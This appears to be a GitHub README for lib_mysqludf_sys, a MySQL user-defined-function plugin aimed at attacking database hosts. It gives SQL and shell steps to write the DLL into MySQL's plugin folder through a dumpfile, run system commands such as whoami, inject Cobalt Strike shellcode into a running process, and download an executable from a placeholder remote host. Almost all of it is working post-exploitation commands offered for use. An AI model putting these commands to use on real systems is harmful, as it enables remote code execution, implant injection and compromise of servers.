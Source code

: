 # lib_mysqludf_sys
lib_mysqludf_sys is a udf plugin of MySQL.

## Into Dumpfile

1.python3 udf_Bin2Hex.py 1 Release\lib_mysqludf_sys_x64.dll "C:\\Program Files\\MySQL\\MySQL Server 5.5\\lib\\plugin\\lib_mysqludf_sys_x64.dll" > lib_mysqludf_sys_x64.sql

2.exec .sql file


## Sys_exec

create function sys_exec returns string soname "lib_mysqludf_sys_x64.dll"; 
select sys_exec("chcp 65001 & ipconfig");drop function sys_exec;

create function sys_exec returns string soname "lib_mysqludf_sys_x64.dll"; 
select sys_exec("whoami");drop function sys_exec;

## Inject

1.Generate Stage/Stageless RAW file for Cobalt Strike


2.Dumpfile in MySQL machine


3.Inject shellcode
create function inject returns string soname "lib_mysqludf_sys_x64.dll"; select inject(hex(load_file("C:\\raw.bin")),"AppVNice.exe");drop function inject;

## Download

create function download returns string soname "lib_mysqludf_sys_x64.dll"; 
select download("http://xxxx/xxx.exe","C:\\11111.exe");drop function download;

